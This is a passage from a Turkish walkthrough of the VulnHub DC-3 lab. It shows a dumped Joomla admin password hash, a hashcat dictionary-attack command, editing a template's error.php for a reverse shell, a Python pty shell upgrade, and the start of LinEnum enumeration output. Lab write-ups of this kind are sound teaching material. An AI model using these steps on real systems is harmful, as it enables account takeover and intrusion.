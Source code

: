 ```text
Database: joomladb
Table: #__users
[1 entry]
+----------+--------------------------------------------------------------+--------------------------+
| username | password                                                     | email                    |
+----------+--------------------------------------------------------------+--------------------------+
| admin    | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu | freddy@norealaddress.net |
+----------+--------------------------------------------------------------+--------------------------+
```
Admin kullanıcısına ait hash bilgisi elde edilmektedir. Elde edilen hash bilgisi hashcat aracı ile sözlük saldırısı yapılarak kırılır. Elde edilen hash türü tespit edilir.

{{< image src="/images/vulnhub/dc3/hashcatt.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}


```bash
hashcat -m 3200 --force hash.txt /usr/share/wordlists/rockyou.txt 
```

{{< image src="/images/vulnhub/dc3/hashcat.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

## 2. Erişim Sağlanması

Admin kullancısı ile sisteme giriş yapılır. Daha sonra template içerisinde yer alan protostar temasındaki error.php dosyası reverse shell alacak şekilde düzenlenir.

{{< image src="/images/vulnhub/dc3/login.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

*http://192.168.56.111/template/protostar/error.php* adresine istek atılarak ncat ile dinlenen porta bağlantı sağlanılır.

{{< image src="/images/vulnhub/dc3/shell.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}
Python pty modulü kullanılarak etkileşimli kabuğa geçilir.
```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

## 3. Yetki Yükseltme

Yetki yükseltmek için LinEnum betiği kullanılırak sistem hakkında bilgi toplanır. 

```bash
#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.982

[-] Debug Info
[+] Thorough tests = Disabled


Scan started at:
Tue Sep 29 08:00:57 AEST 2020


### SYSTEM ##############################################
[-] Kernel information:
```